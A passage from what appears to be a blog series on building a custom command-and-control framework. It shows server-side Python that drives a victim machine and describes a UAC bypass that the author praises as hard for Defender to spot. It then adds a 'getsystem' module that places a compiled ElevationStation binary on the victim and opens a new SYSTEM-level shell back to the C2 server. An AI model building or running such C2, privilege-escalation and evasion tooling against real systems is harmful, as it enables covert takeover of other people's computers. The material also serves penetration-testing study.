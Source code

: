 ```python
                time.sleep(2)
                client.send(b"[+] Wrapping things up!  You should have an elevated shell soon!\n")
```

You should be greeted with a new elevated connection sent to your C2 server!  Full source code located in the usual spot on my GitHub.  I'll reference it toward the bottom of this post.

![image](https://github.com/user-attachments/assets/7161461a-554a-43cb-80f6-465e21cb969d)

![image](https://github.com/user-attachments/assets/18a26f56-e388-4148-a80d-56c250f3f515)

![image](https://github.com/user-attachments/assets/ed627306-ece6-4833-8204-887a0ecbe6fa)

Nice!  I like this Bypass technique as it is very programatically sound.  What I mean by that is that it's hard for Defender to differentiate between malicious tampering and basic handling of sending keys and swapping out tokens.  Other than the executable we eventually run in an elevated manner, there's nothing really inherently suspicious about this UAC bypass technique.  We're not messing with the registry, tampering with environment varables, or modifying files in any way.  It's fairly innocuous if you ask me.  😄

***Part 3 - Adding in GetSystem for SYSTEM elevation functionality***
-

Privilege escalation is one of my favorite aspects of offensive security.  I love exploring all the various ways one can achieve `SYSTEM` level permissions in a pentest engagement.  It's where my twitter/X handle comes from, my passion for exploring the many facets and fascinations behind privilege escalation.  This next new module I'd like to introduce in Part 3 of this C2 series will be integrating my **ElevationStation** project code to help us elevate from an administrator/elevated process to **SYSTEM** privileges.

> **Prep**

Open the `elevationstation.sln` project file and compile it.  Copy/upload the compiled executable to the victim's `c:\users\public` directory.  We will be using this to escalate to **SYSTEM**!

> **Server-side code**

```python
 if choice == "getsystem":
            print("[+] Please wait ~15-20 seconds and you'll receive another connection with your new [SYSTEM] shell!")
            print("We're using elevationstation's Trusted Installer technique to get all privileges for the shell btw ;) ")
            clientlist[selection][1].send(b":getsystem:\n")
            systemstatus=clientlist[selection][1].recv(1024)
            systemstatus = systemstatus.decode('UTF-8')
            print(systemstatus)
            time.sleep(4)
            #getsystem=clientlist[selection][1].recv(1024)
            #getsystem = whoami.decode('UTF-8')
            #print("Results: ", getsystem)
            #time.sleep(2)
```
